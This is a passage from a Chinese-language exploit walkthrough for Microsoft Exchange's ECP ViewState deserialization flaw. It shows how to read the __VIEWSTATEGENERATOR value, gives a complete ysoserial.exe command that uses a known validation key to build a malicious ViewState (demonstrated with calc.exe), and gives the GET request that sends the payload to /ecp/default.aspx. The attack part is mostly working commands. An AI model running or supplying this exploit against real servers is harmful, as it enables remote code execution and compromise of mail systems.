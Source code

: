 `__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![image](../img/9c4489d95c19c8dcf8662e33e54976e5.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用YSoSerial.net生成序列化后的恶意的ViewState数据：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy 
```

![image](../img/2f87f86aa687efbe5edcb947956d30c4.png)

构造以下URL，使用生成的payload替换 ，使用上面所说的value值替换 ，最后用GET请求发送给服务器即可。

```
http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState> 
```

![image](../img/0dad50f8195c2645dd6d3f8271f2211d.png)
